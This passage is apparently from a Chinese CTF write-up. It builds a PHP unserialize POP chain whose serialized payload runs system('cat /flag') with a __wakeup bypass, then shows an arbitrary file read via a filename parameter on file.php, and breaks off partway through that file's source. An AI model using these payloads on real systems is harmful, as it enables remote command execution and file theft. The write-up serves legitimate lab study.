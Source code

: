 ```php
    public $key;
}

class secret_code
{
    public $code;
}

$e = new fine();
$e->cmd = 'system';
$e->content = 'cat /flag';

$d = new sorry();
$d->key = $e;

$c = new secret_code();
$c->code = $d;

$b = new Show();
$b->ctf = $c;

$a = new sorry();
$a->name = '123';
$a->password = '123';
$a->hint = $b;

echo serialize($a);
```

最后改一下数字绕过 `__wakeup`

```
http://f9eac3ed-9425-4fe7-a009-aad41f9db212.node4.buuoj.cn:81/?pop=O:5:"sorry":4:{s:4:"name";s:3:"123";s:8:"password";s:3:"123";s:4:"hint";O:4:"show":2:{s:3:"ctf";O:11:"secret_code":1:{s:4:"code";O:5:"sorry":4:{s:4:"name";N;s:8:"password";N;s:4:"hint";N;s:3:"key";O:4:"fine":3:{s:3:"cmd";s:6:"system";s:7:"content";s:9:"cat /flag";}}}s:4:"time";N;}s:3:"key";N;}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210231752647.png)

## hade_waibo

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210231753442.png)

cancan need 有任意文件读取

```
http://745b93ee-b378-4803-b84e-52f9e7b78d2a.node4.buuoj.cn:81/file.php?m=show&filename=file.php
```

file.php

```php
............
<?php
error_reporting(0);
session_start();
include 'class.php';

if($_SESSION['isLogin'] !== true){
	die("<script>alert('号登一下谢谢。');location.href='index.php'</script>");
}
$form = '
<form action="file.php?m=upload" method="post" enctype="multipart/form-data" >
    <input type="file" name="file">
```